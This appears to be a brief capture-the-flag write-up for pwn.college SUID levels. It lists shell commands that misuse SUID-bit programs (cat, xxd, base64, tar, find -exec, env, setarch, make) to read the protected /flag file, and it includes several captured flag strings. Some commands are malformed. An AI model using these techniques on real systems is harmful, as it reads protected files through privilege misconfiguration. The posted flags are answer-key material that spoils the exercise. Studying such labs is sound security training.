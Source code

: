 # Level 1/2/3/4/5/6/7/8/9 - SUID

```
> cd /challenge
> ls -al <name>
> ./babysuid_level1
> ./usr/bin/cat /flag
```

flag: `pwn.college{wnlOfJ8zdOdgVoWRP1zVwfkSYw1.QXzQTMsMTOwEzW}`

- https://www.gtk.org/setuid.html

# Level 10/11/12/13/14/15/17/18/19/20 - 

```
> ./rev /flag | rev
> od -An -c /flag | sed 's/ //g'
> hd /flag
> xxd /flag
> base32 /flag | base32 -d
> base64 /flag | base64 -d
> gzip flag | zcat flag.gz
> bzip2 -dc flag.bz2 
> zip /flag.zip /flag | unzip -p /flag.zip | more
> tar -czvf flag.tar.gz flag | tar - xzf flag.tar.gz -O
> genisoimage -sort /flag /flag

```
pwn.college{8xYlpa5rzmQwEm8rIX2d9DnVT6I.QXzUTMsMTOwEzW}
pwn.college{k1RNK7xKOgiE-ARIFRdBRVUxMQr.QX0UTMsMTOwEzW}
pwn.college{kNg9fS_AkM8YoaYgY4gMcjIs9dv.QX1UTMsMTOwEzW}
pwn.college{UwJZjNka1o3Y0POuE_7ZmVwLJpt.QXxYTMsMTOwEzW}
pwn.college{sERB6-QB1FG_LBNI_YtrZHdu5N4.QXyYTMsMTOwEzW}

# Level 24/25/27/28/29/30 - Using programs with SUID to execute other programs

```
> env cat flag
> find /flag -exec cat flag {} \;
> nice cat /flag
> timeout 100 cat /flag
> stdbuf -oL cat /flag

> setarch --list
> setarch uname26 cat /flag
```

# Level 26 - SUID with makefile

```
1. create makefile in directory which we have write access
run:
    cat /flag

2. execute makefile
> make run
```



